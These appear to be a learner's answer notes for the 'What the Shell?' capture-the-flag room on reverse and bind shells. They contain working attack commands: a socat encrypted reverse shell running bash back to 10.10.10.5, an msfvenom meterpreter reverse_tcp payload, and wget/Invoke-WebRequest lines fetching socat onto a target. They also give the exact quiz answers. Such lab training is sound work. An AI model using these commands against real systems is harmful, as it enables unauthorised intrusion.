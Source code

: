 # Notes for the room "What the Shell?"

## Tasks

### Task 3

Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?

```
R
```

You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)

```
N
```

When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?

```
T
```

### Task 4

Which option tells netcat to listen?

```
-l
```

How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?

```
nc 10.10.10.11 8080
```

### Task 5

Technique 1: Python

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

- The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
- Step two is: `export TERM=xterm` -- this will give us access to term commands such as clear.
- Finally (and most importantly) we will background the shell using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.


Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.


 Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.


How would you change your terminal size to have 238 columns?

```
stty cols 238
```

What is the syntax for setting up a Python3 webserver on port 80?

```
sudo python3 -m http.server 80
```

### Task 6

How would we get socat to listen on TCP port 8080?


```
TCP-L:8080
```

### Task 7

What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

### Task 8


What command can be used to create a named pipe in Linux?

```
mkfifo
```

### Task 9


Which symbol is used to show that a shell is stageless?

```
_
```

What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443
```

### Task 10

What command can be used to start a listener in the background?

```
exploit -j
```

If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

```
sessions 10
```




